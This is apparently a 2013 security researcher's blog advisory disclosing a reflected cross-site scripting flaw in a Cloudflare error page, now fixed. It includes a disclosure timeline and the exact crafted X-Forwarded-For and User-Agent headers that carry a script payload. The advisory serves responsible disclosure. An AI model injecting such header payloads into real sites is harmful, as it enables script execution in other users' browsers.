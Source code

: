 ```yaml
---
layout: post
title: "[DAHAX-2013-001] Cloudflare XSS Vulnerability"
date: '2013-08-15T08:00:00+10:00'
tags:
- dahax-2013-001
- dahax
- '2013'
- vulnerability
- notification
- cloudflare
- xss
- x-forwarded-for
- user-agent
categories:
- devalias
tumblr_url: http://devalias.tumblr.com/post/58217238426/dahax-2013-001-cloudflare-xss-vulnerability
redirect_from: /post/58217238426/dahax-2013-001-cloudflare-xss-vulnerability
---
```

**Reference Number:** DAHAX-2013-001 (/dev/alias/hacks 2013-001)

### Notification Timeline

* 10/07/2013, Request# 38713 (https://support.cloudflare.com/anonymous_requests/new)
* 10/07/2013, Vendor looking into issue
* 16/07/2013, Updated vendor with new details (Length: 101 instead of 72)
* 16/07/2013, Vendor requested that I test again
* No response from vendor
* 01/08/2013, Tested again, vulnerability fixed
* 22/08/2013, Posted details to full-disclosure
* 22/08/2013, Vendor confirmed issue has been fixed

**Details Published:** 14/08/2013 (http://blog.devalias.net)

## What?

* Reflected XSS (cross site scripting) attack

## Where's Affected?

* Theoretically it seems that any page that uses cloudflare will be affected.
  * Eg: [http://www.cloudflare.com/](https://www.cloudflare.com/)

## How?

* **To bring up the vulnerable page**
  * Set your X-Forwarded-For header to 101+ characters
  * Eg:

```
X-Forwarded-For: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDEEEEEEEEEEFFFFFFFFFFGGGGGGGGGGHHHHHHHHHHIIIIIIIIIIJJJJJJJJJJK
```

* Load a site using cloudflare
* You should end up on "DNS Points to Prohibited IP" page
  * **To trigger the XSS**
* Set your User-Agent string to the XSS attack
  * Eg:

```
User-Agent: USER-AGENT being tested for XSS..<script>alert(''Vulnerable to XSS via USER-AGENT header [Found by devalias.net]'')</script>
```

* **The whole attack**
  * Ensure your X-Forwarded-For and User-Agent headers are configured as above
  * Navigate to a page using cloudflare
  * ???
  * Profit!

## Who?

Discovered by [Glenn 'devalias' Grant](http://www.devalias.net/) (glenn@devalias.net)

## Responsible Disclosure Notice

* Following in the footsteps of Google's vulnerability disclosure timeline, unless otherwise agreed to beforehand, I reserve the right to publicly announce the details of any discovered vulnerabilities 7 days post notification.
  * **Google's Rationale:** "Seven days is an aggressive timeline and may be too short for some vendors to update their products, but it should be enough time to publish advice about possible mitigations, such as temporarily disabling a service, restricting access, or contacting the vendor for more information. As a result, after 7 days have elapsed without a patch or advisory, we will support researchers making details available so that users can take steps to protect themselves. By holding ourselves to the same standard, we hope to improve both the state of web security and the coordination of vulnerability management." - [Google](https://googleonlinesecurity.blogspot.com.au/2013/05/disclosure-timeline-for-vulnerabilities.html)
